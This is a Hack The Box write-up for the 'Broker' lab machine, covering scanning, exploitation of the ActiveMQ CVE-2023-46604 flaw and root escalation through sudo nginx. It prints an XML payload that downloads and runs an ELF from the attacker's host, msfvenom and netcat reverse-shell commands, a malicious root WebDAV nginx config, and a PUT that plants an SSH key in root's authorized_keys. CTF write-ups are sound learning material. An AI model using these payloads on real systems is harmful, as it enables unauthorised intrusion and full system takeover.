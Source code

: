 ```yaml
---
title: 'Broker - HTB - WriteUp'
date: 2024-02-03 18:30:45 +0100
categories: [Cybersecurity, HTB]
tags: [HTB, machine]
pin: true
math: true
mermaid: true
image:
  path: ../assets/img/htb-broker/cover.png
  alt: .
---
```


Broker is an easy difficulty `Linux` machine hosting a version of `Apache ActiveMQ`. Enumerating the version of `Apache ActiveMQ` shows that it is vulnerable to `Unauthenticated Remote Code Execution`, which is leveraged to gain user access on the target. Post-exploitation enumeration reveals that the system has a `sudo` misconfiguration allowing the `activemq` user to execute `sudo /usr/sbin/nginx`, which is similar to the recent `Zimbra` disclosure and is leveraged to gain `root` access.


![Alt text](../assets/img/htb-broker/main-data.png)

If we access this ip, we find that it has an auth basic, trying easy passwords I realize that it is 'admin':'admin', once inside I look at what information it contains but I do not get anything relevant, so I go to the terminal.

I want to know what that server has up, so I run it:

```bash
 ┌─[✗]─[saf@parrot]─[~/exploits]
└──╼ $nmap -sC -sV 10.10.11.243
...
...
 Nmap scan report for 10.10.11.243
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
1234/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE    TIME               FILENAME
| -       06-Nov-2023 01:10  bin/
| -       06-Nov-2023 01:10  bin/X11/
| 963     17-Feb-2020 14:11  bin/NF
| 129576  27-Oct-2023 11:38  bin/VGAuthService
| 51632   07-Feb-2022 16:03  bin/%5B
| 35344   19-Oct-2022 14:52  bin/aa-enabled
| 35344   19-Oct-2022 14:52  bin/aa-exec
| 31248   19-Oct-2022 14:52  bin/aa-features-abi
| 14478   04-May-2023 11:14  bin/add-apt-repository
| 14712   21-Feb-2022 01:49  bin/addpart
|_
|_http-title: Index of /
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> I look for the default port of ActiveMQ ( 61616 ), and it is up.

```bash

┌─[✗]─[saf@parrot]─[~/exploits]
└──╼ $nmap -p 61616 -sC -sV 10.10.11.243
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-04 02:59 CET
Nmap scan report for 10.10.11.243
Host is up (0.12s latency).

PORT      STATE SERVICE  VERSION
61616/tcp open  apachemq ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15

```
Active MQ on version 5.15 has vulnerability ( https://nvd.nist.gov/vuln/detail/CVE-2023-46604 )
And i found that: https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ

So with this exploit de main idea is get a type of exe and make a reverse shell with us.

```xml
    <?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="
        http://www.springframework.org/schema/beans
    http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
                <list>
                    <value>sh</value>
                    <value>-c</value>
                    <!-- The command below downloads the file and saves it as test.elf -->
                    <value>curl -s -o test.elf http://10.10.14.227:8001/test.elf; chmod +x
                    ./test.elf; ./test.elf</value>
                </list>
            </constructor-arg>
        </bean>
    </beans>

```


> Term 1
> LHOST (My local ip: 10.10.14.227)
> LPORT (A PORT FORT NETCAT on my case 4444)

```bash 

curl https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ/archive/refs/heads/main.zip

unzip main.zip

cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ-main

msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf


```



> Term 2

```bash
python3 -m http.server 8001
```

> Term 3

```bash
nc -lvvp 4444

```

Now in the term 1 run:

```bash
    go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.227:8001/poc-linux.xml
```

![Alt text](../assets/img/htb-broker/gorun.png)

And in the terminal 3, you will have a reverse shell so u can run any command.

>The user flag can be found at **home/activemq/user.txt** .
{: .prompt-info }


In order not to have an escalation of privialage, we can choose either way

Oone option is to use [nginx dav module](https://nginx.org/en/docs/http/ngx_http_dav_module.html).

The main idea is to store our public key in authorized_keys for root by creating a malicious nginx.

```nginx
    user root;
    worker_processes 4;
    pid /tmp/nginx.pid;
    events {
        worker_connections 768;
    }
    http {
        server {
            listen 1337;
            root /;
            autoindex on;
            dav_methods PUT;
        }
    }
```

The key parts are the following:
- user root : The worker processes will be run by root , meaning when we eventually upload
a file, it will also be owned by root . 
- root / : The document root will be topmost directory of the filesystem.
- dav_methods PUT : We enable the WebDAV HTTP extension with the PUT method, which
allows clients to upload files.


```bash
echo 'user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
  worker_connections 768;
}
http {
  server {
    listen 1337;
    root /;
    autoindex on;
    dav_methods PUT;
  }
}' > /tmp/bad.conf

sudo nginx -c  /tmp/bad.conf
```

and we can check that if is up:

```bash
    activemq@broker:/tmp$ ss -tlpn
    State Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
    LISTEN 0 511 0.0.0.0:80 0.0.0.0:*
    LISTEN 0 4096 127.0.0.53%lo:53 0.0.0.0:*
    LISTEN 0 128 0.0.0.0:22 0.0.0.0:*
    LISTEN 0 511 0.0.0.0:1337 0.0.0.0:*
    
```

We generate a key pair:

```bash
activemq@broker:/tmp$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/activemq/.ssh/id_rsa): ./root
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in ./root
Your public key has been saved in ./root.pub
The key fingerprint is:
SHA256:ooCAL0h8Ox5bXucm2zutWwSXzRmSEl8h9YNzAWr3i6E activemq@broker
The key's randomart image is:
+---[RSA 3072]----+
| ..oo*o. |
|o ...O = .|
|oo . ..* B + |
|+o. . + . + .|
|+ o+ ...S. . . . |
| ...*...o . . o .|

```

And we upload the public key to the top inside root:

```bash
    curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat root.pub)"
```

we can check it in the web browser:

![Alt text](../assets/img/htb-broker/authorized.png)

>From the web, since we have access to the root data, we could already find the flag
{: .prompt-info }

We can connect via ssh:

```bash
activemq@broker:/tmp$ ssh -i root root@localhost
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
```

>The root flag can be found at /root/root.txt .
{: .prompt-info }


